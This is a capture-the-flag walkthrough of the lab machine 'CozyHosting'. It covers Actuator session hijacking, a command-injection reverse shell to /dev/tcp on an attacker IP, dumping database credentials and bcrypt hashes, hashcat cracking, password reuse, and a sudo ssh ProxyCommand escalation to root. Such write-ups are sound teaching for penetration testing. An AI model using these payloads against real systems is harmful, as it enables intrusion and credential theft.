

CozyHosting

Recon
The box exposes SSH and a web app served at cozyhosting.htb, so that goes into /etc/hosts. The site is a cloud hosting company page with a login, and requesting a bad path returns a Spring Boot Whitelabel Error Page, which tells me it is a Spring Boot application. That is worth a look because Spring Boot ships Actuator management endpoints, and they are frequently left exposed.
The actuator base path is reachable, and /actuator/sessions is enabled. It dumps the live session IDs mapped to their usernames, two of which belong to a logged-in user, kanderson:
[cozyhosting] curl -s http://cozyhosting.htb/actuator/sessions
{
"E2317086A7ADE655F23F0A50F929B7FD": "UNAUTHORIZED",
"87CD57D7DD0C21F767BDF2DE6EC33B6F": "UNAUTHORIZED",
"C2BF9CD626BCCB8D352FB373CEE1F319": "kanderson",
"F7CD7FB966FBC02AB1EFA2A240BF4465": "UNAUTHORIZED",
"A7DC17B2F9F8A7179DE44FA7E2C3EF1C": "kanderson"
}Exploitation
Those session IDs are live JSESSIONID values. Setting the cookie to one of kanderson's sessions and browsing to /admin lands me in the admin panel as that user, no password needed.
The admin panel has an "add host" feature that runs a server-side connectivity check by building an ssh command from the hostname and username fields. The username field is concatenated into that shell command unsanitised, which is a classic command injection. The catch is that whitespace breaks the app's own parsing, so the payload has to avoid spaces (using $IFS for a space, or redirection tricks that need none). I put a space-free bash reverse shell in the username field:
hostname: localhost
username: ribeirin@localhost;exec<>/dev/tcp/10.10.15.221/4444;bash<&0>&0;#Submitting the form fires the shell back to my listener as the app user running the service.
[cozyhosting] nc -lvnp 4444
Connection received on 10.129.x.x
app@cozyhosting:/app$ idPost Exploitation
The process list shows the app is a Spring Boot jar:
app 999 /usr/bin/java -jar cloudhosting-0.0.1.jarI pulled cloudhosting-0.0.1.jar back to my machine and unzipped it. A Spring Boot jar keeps its config in BOOT-INF/classes/application.properties, and that file carries the PostgreSQL credentials in cleartext:
server.address=127.0.0.1
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxRThe database is bound to localhost, but I already have a shell on the box, so I connected from there and dumped the users table:
app@cozyhosting:/app$ psql -h localhost -U postgres
Password for user postgres:
postgres=# \c cozyhosting
cozyhosting=# select * from users;
name | password | role
-----------+--------------------------------------------------------------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | AdminBoth are bcrypt (mode 3200). The admin hash cracks against rockyou:
[cozyhosting] hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunitedmanchesterunited is reused as the SSH password for the system user josh, which is a clean login and the user flag:
[cozyhosting] ssh josh@cozyhosting.htb
josh@cozyhosting:~$ cat user.txtPrivilege Escalation
Checking sudo rights, josh can run ssh as root with a wildcard argument:
josh@cozyhosting:~$ sudo -l
User josh may run the following commands on localhost:
(root) /usr/bin/ssh *This is a GTFOBins classic. The ProxyCommand option is executed by ssh through /bin/sh before it connects, so pointing it at a shell command runs that command with the privileges of the ssh process, which here is root:
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt